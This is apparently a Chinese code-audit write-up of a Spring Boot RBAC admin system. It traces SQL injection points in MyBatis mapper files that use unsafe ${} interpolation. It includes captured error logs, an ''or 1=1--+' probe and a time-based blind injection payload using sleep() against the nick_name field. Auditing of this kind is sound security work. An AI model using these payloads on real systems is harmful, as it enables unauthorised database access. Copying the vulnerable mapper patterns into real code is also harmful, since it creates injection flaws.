


@GetMapping("/index") @PreAuthorize("hasAnyAuthority('dict:list')") public String index(){ return"system/dict/dict"; }
@GetMapping @ResponseBody @ApiOperation(value = "字典列表") @PreAuthorize("hasAnyAuthority('dict:list')") @MyLog("查询字典列表") public Result getDictAll(PageTableRequest pageTableRequest, MyDict myDict){ pageTableRequest.countOffset(); return dictService.getDictPage(pageTableRequest.getOffset(),pageTableRequest.getLimit(),myDict); }
直接到了controller层，打上端点，根据注释找到对应的功能点：系统管理>字典管理
抓包开始跟一下流程，

使用mysqlMonitor监控到了执行的sql语句：

1
insert into my_log(user_name,ip,description,params,type,exception_detail,browser,method,time,create_time)values('admin','192.168.70.213','??????','{ pageTableRequest: PageTableRequest(page=1, limit=10, offset=0) myDict: MyDict(dictId=null, dictName=''or 1=1--+, description=null, sort=null, createBy=null, updateBy=null) }','ERROR','org.springframework.jdbc.BadSqlGrammarException: \n### Error querying database. Cause: java.sql.SQLSyntaxErrorException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''')) tmp_count'' at line 4\n### The error may exist in file [/home/this_is_y/Code_Audit/Document/dweb2/???/??????1 ?????WEB?????????????/RefiningStone-RBAC(???)/target/classes/mybatis-mappers/DictMapper.xml]\n### The error may involve defaultParameterMap\n### The error occurred while setting parameters\n### SQL: select count(0) from (select di.dict_id,di.dict_name,di.description,di.sort,di.create_by,di.update_by,di.create_time,di.update_time from my_dict di WHERE di.dict_name like CONCAT(''%'', ''or 1=1--+, ''%'')) tmp_count\n### Cause: java.sql.SQLSyntaxErrorException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''')) tmp_count'' at line 4\n; bad SQL grammar []; nested exception is java.sql.SQLSyntaxErrorException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''')) tmp_count'' at line 4\n at org.springframework.jsupport.SQLErrorCodeSQLExceptionTranslator.doTranslate(SQLErrorCodeSQLExceptionTranslator.java:235)\n at org.springframework.jdbc.support.AbstractFallbackSQLExceptionTranslator.translate(AbstractFallbackSQLExceptionTranslator.java:72)\n at …………
其中提取到执行的sql语句：
1
select di.dict_id,di.dict_name,di.description,di.sort,di.create_by,di.update_by,di.create_time,di.update_time from my_dict di WHERE di.dict_name like CONCAT(''%'', ''or 1=1--+, ''%'')
<selectid="getFuzzyDept"resultType="com.codermy.myspringsecurityplus.admin.entity.MyDept"> <includerefid="selectDeptVo"/> <where> <iftest="deptName != null and deptName != ''"> AND d.dept_name like CONCAT('%', #{deptName}, '%') </if> <iftest="status != null and status != ''"> AND d.status = #{status} </if> <!-- 数据范围过滤 --> ${params.dataScope} </where> order by d.sort </select> ………… <selectid="buildAll"resultType="com.codermy.myspringsecurityplus.admin.dto.DeptDto"> select d.dept_id as id,d.parent_id,d.dept_name as title from my_dept d <where> <!-- 数据范围过滤 --> ${params.dataScope} </where> </select> …………
<updateid="updateDeptStatus"parameterType="com.codermy.myspringsecurityplus.admin.entity.MyDept"> update my_dept <set> <iftest="status != null and status != ''">status = #{status},</if> update_time = #{updateTime} </set> where dept_id in (${ancestors}) </update>
<selectid="getFuzzyUserByPage"resultType="com.codermy.myspringsecurityplus.admin.entity.MyUser"> SELECT u.user_id,u.dept_id,u.user_name,u.password,u.nick_name,u.phone,u.email,u.status,u.create_time,u.update_time FROM my_user u left join my_dept d on u.dept_id = d.dept_id <where> <iftest="nickName != null and nickName != ''"> AND u.nick_name like CONCAT('%', ${nickName}, '%') </if> <iftest="userName != null and userName != ''"> AND u.user_name like CONCAT('%', ${userName}, '%') </if> <iftest="deptId != null and deptId != ''"> AND (u.dept_id = #{deptId} OR u.dept_id IN ( SELECT e.dept_id FROM my_dept e WHERE FIND_IN_SET(#{deptId},ancestors) )) </if> <!-- 数据范围过滤 --> ${params.dataScope} </where> ORDER BY u.user_id </select>
同DeptMapper.xml，没有参数params.dataScope
然后还有两个${nickName}。这个点比较简单，
就是userName和nickName两个参数
SELECT count(0) FROM my_user u LEFT JOIN my_dept d ON u.dept_id = d.dept_id WHERE u.nick_name LIKE CONCAT(‘%’, (SELECT (if(1, sleep(1), sleep(2)))), ‘%’)